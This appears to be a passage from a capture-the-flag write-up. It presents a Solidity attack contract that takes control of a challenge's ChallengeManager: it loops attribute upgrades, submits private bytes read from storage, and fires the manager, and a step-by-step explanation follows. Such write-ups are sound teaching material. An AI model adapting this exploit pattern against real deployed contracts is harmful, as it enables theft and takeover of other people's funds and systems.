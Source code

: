 Now we can write an attack contract that accomplishes the above.

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";
import {ChallengeManager} from "../src/ChallengeManager.sol";
import {Privileged} from "../src/Privileged.sol";
import {Setup} from "../src/Setup.sol";

contract Attack {

    struct casinoOwnerChallenger{
        address challenger;
        bool isRich;
        bool isImportant;
        bool hasConnection;
        bool hasVIPCard;
    }

    Setup public setup;
    ChallengeManager public cm;
    Privileged public pr;

    constructor() {
        setup = Setup(address(0x9c247DA084FD8390dEC3722772299Ac864ce2e30));
        cm = setup.challengeManager();
        pr = setup.privileged();
    }

    function attack() public payable {
        cm.approach{value: msg.value}();
        while (true) {
            if (cm.qualifiedChallengerFound()) {
                break;
            }
            cm.upgradeChallengerAttribute(uint256(3), uint256(3));
        }
        cm.challengeCurrentOwner(bytes32(0x494e4a55494e4a55494e4a5553555045524b45594b45594b45594b45594b4559));
        pr.fireManager();
    }

    function isSolved() public returns (bool) {
        return setup.isSolved();
    }
}
```

A quick summary of what the contract is doing:

1. First we attach to the Setup contract running at the given address (in this case `0x9c247DA084FD8390dEC3722772299Ac864ce2e30`)
2. Get the addresses of the `Privilged` and `ChallengeManager` contracts
3. Call the `attack()` function
     - Calls `ChallengeManager.approach()` to register the attack contract as a `Challenger`
     - Repeatedly call `upgradeChallengerAttribute` (we use `id` 3 because the Setup contract creates two challengers before us).
     - Once the `qualifiedChallengerFound()` function returns true, we know we are `theChallenger` so we can break.
     - Call `challengeCurrentOwner()` with the private bytes we found earlier.
     - Fire the current manager with `fireManager()`
4. Now the current manager's address is the zero address, and any calls to `isSolved()` return `true`
